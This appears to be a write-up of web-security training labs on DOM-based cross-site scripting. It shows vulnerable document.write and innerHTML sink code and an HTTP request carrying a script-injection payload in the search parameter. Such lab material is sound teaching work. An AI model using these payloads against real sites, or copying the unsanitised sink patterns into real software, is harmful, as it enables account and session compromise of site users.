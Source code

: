 To solve this lab, perform a cross-site scripting attack that calls the alert function. 

The vulnerable code snippet is below:

```

function trackSearch(query) {
   document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}

var query = (new URLSearchParams(window.location.search)).get('search');

if(query) {
     trackSearch(query);
}

<img src="/resources/images/tracker.gif?searchTerms=">
                    
```

`window.location.search` is one of many sources that a potential attacker could use to send data to hoping that it reaches a `sink` like `document.write` to exploit dom xss.

Request:

```
GET /?search=%22%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E HTTP/1.1
Host: 0aba0083045fae7bc1c2fde3008c0087.web-security-academy.net
Cookie: session=A7lqFoeGzNhAhipBbbz3Vu7HWHrzPu9B
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"


```

## Lab: DOM XSS in innerHTML sink using source location.search

This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.

To solve this lab, perform a cross-site scripting attack that calls the alert function. 

The vulnerable code snippet is below:

```


function doSearchQuery(query) {
     document.getElementById('searchMessage').innerHTML = query;
}

var query = (new URLSearchParams(window.location.search)).get('search');

if(query) {
 doSearchQuery(query);
}
                        

```
